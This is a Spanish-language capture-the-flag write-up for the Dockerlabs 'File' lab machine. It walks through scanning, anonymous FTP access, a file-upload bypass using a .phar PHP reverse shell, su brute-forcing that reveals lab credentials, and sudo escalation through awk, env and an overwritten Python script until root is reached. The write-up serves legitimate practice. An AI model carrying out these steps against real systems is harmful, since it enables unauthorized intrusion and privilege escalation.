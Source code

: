# MACHINE FILE 

## INFORMACIÓN GENERAL

- **Plataforma**: Dockerlabs
- **Sistema Operativo**: Linux
- **Dificultad**: Fácil

![machine_dockerlabs](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/machine_dockerlabs.png)

## DESPLIEGUE
```python
bash autodeploy.sh file.tar
```
![despliegue](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/despliegue.png)

## RECONOCIMIENTO
```ruby
nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV 172.17.0.2
```

```ruby
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000010s latency).
Scanned at 2025-03-07 20:53:21 -05 for 9s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 65534    65534          33 Sep 12 21:50 anon.txt
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix
```
El puerto 80 está abierto y muestra la página por defecto del servidor Apache, según el escaneo de Nmap.
![web_apache](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/web_apache.png)

## ENUMERACIÓN

En este punto, podemos pensar en enumerar la web, directorios ocultos, archivos, etc. Pero sin olvidar que podemos iniciar sesión de forma anónima por FTP, y Nmap reporta un archivo llamado `anon.txt`

```ruby
ftp anonymous@172.17.0.2
```
![hash_ftp](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/hash_ftp.png)
![crakstation](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/crackstation.png)

Tenemos como resultado `justin`, si hacemos un intento de ataque de fuerza bruta con `hydra` por `ssh`, no tenemos éxito asi que vamos a enumerar directorios

```ruby
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404
```
```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   500,502,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,xml,csv,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 11008]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
/file_upload.php      (Status: 200) [Size: 468]
Progress: 1245858 / 1245864 (100.00%)
===============================================================
Finished
===============================================================
```
✅ "⚠️ Importante: el directorio /uploads puede ser de interés, pero también hay un /file_upload.php."**
#### CONSEJO
Cuando realicé este CTF, corté el escaneo de Gobuster demasiado rápido al encontrar directorios interesantes. Sin embargo, es importante esperar a que termine el escaneo por completo, ya que `file_upload.php` apareció casi al final.

# EXPLOTACIÓN

Al encontrar esto, podemos pensar en la VULNERABILIDAD DE FILE UPLOAD, vamos a intentar mandarse una reverse shell, usaremos el archivo de nuestro amigo `Pentest Monkey`
[php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell), Solo cambiamos la extensión a `.phar` porque el servidor tenía restricciones con ciertas extensiones. Probé con `.php`, pero no lo permitía.
Preparamos el archivo, ajustamos los parámetros necesarios y lo subimos.

![upload](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/upload.png)

Ahora vamos al directorio `uploads`, nos ponemos en escucha por el puerto que definimos y ejecutamos 

![rev_shell_exito](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/rev_shell_exito.png)


Para poder operar mejor podemos hacer un tratamiento de la TTY para obtener una bash interactiva
```ruby
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
          reset xterm
export TERM=xterm
export SHELL=bash
```


## ESCALADA DE PRIVILEGIOS

No encontramos permisos SUID ni la forma clásica de escalar privilegios con `sudo -l` funciona, entonces vamos a realizar una fuerza bruta a usuarios con `su`
La herramienta que usaremos sera la siguiente: [su-bruteforce](https://github.com/carlospolop/su-bruteforce) 
los usuarios que tenemos son:
- fernando
- iker
- julen
- mario

Creamos el archivo y le damos permisos de ejecución
![archivo_bruteforce](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/archivo_bash_bruteforce.png)

Ahora traemos el diccionario con el que aplicaremos la fuerza bruta, el rockyou.txt de nuestra maquina local

![server_python](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/server_python.png)
![previa_brute_force](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/previa_bruteforce.png)


Encontramos 2 credenciales de los usuarios: `mario` y `fernando`

![credenciales](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/credenciales.png)

"Vamos a iniciar sesión con las credenciales `fernando:chocolate`, encontramos una imagen. Si aplicamos esteganografía, podremos recuperar la contraseña de `mario`, tal y como lo descubrió la herramienta, podemos cambiar al usuario `mario`
![escalda_julen](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/escalada_juel.png)

como vemos podemos escalar al usuario `julen` mediante el binario `awk`, corremos a nuestra pagina de confianza [GTFOBins](https://gtfobins.github.io/)
```ruby
sudo -u awk 'BEGIN {system("/bin/sh")}'
```
![julen_user](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/julen_user.png)

Ahora si hacemos un `sudo -l` con el usuario julen, podemos escalar hacia iker mediante el binario `env` 

```ruby
sudo -u iker env /bin/sh
```
![user_iker](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/user_iker.png)

Hacemos `sudo -l` vemos que el usuario iker puede escalar mediante un archivo en python, la idea seria modificar el archivo para enviarnos una bash como root
Pero no tenemos permisos de escritura, solo de lectura. Sin embargo, podemos eliminarlo e ingresar contenido nuevo.

![iker_escalada](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/escalada_user.png)
```ruby
echo "import os" > geo_ip.py
echo "os.system('/bin/bash')" >> geo_ip.py
```

![geo.py](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/geo.py.png)


```ruby
sudo /usr/bin/python3 /home/iker/geo_ip.py
```
![root](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/file/root.png)


#### HEMOS RESUELTO LA MAQUINA!


## ELIMINAR LA MAQUINA

```ruby
ctrl + c
```
